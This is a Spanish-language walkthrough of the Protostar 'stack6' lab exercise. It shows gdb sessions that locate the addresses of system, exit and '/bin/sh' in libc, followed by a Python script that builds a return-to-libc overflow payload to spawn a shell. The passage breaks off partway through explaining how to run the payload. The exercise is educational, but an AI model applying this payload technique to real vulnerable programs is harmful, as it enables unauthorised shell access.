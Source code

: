 1. Se crea la pila con los arguemntos, que usa la función la funcion system("bin/sh")
2. Se borran estos argumentos de la pila con *LEAVE* 
3. Queda la direccion de retorno (a donde va cuando acaba) que se pasa al eip -> *POP EIP*

¿Por tanto de dónde sacamos estas tres cosas?

 * Dirección de "system"

```console
[user@protostar]-[/opt/protostar/bin]:$ gdb ./stack6
(gdb) run
input path please: AAAA
got path AAAA
(gdb) p &system
$1 = 0xb7ecffb0 <__libc_system>
```
* Dirección de "exit"

```console
(gdb) p &exit
$2 = 0xb7ec60c0 <*__GI_exit>
```
 * String "bin/sh"

```console
(gdb) b *0x080484f8
(gdb) run
input path please: AAAA
got path AAAA
Breakpoint alcanzado!
(gdb) info proc map
Start Addr   End Addr       Size     Offset objfile
...
0x8049000  0x804a000     0x1000          0   /opt/protostar/bin/stack6
...  
0xb7e97000 0xb7fd5000   0x13e000          0   /lib/libc-2.11.2.so -> La primera vez que sale esto (0xb7e97000)
0xb7fd5000 0xb7fd6000     0x1000   0x13e000   /lib/libc-2.11.2.so
[user@protostar]-[/opt/protostar/bin]:$ strings -atx /lib/libc-2.11.2.so | grep "bin/sh"
 11f3bf /bin/sh
(gdb) x/s 0xb7e97000 + 0x11f3bf
0xb7fb63bf:	 "/bin/sh"
```
Ya tenemos las tres direcciones, por tanto armamos el exploit

```console
[user@protostar]-[/opt/protostar/bin]:$ vim /tmp/exploit.py
```
```python
import struct

offset = 80
padding = "A" * offset
system = struct.pack("I",0xb7ecffb0)
exit = struct.pack("I",0xb7ec60c0)
bin_sh = struct.pack("I",0xb7fb63bf)
print(padding + system + exit + bin_sh)
```
Hay que pasarselo entre parentesis y con el cat al final ya que sino el proceso que abre de consola se cierra al instante, y cat lo deja abierto
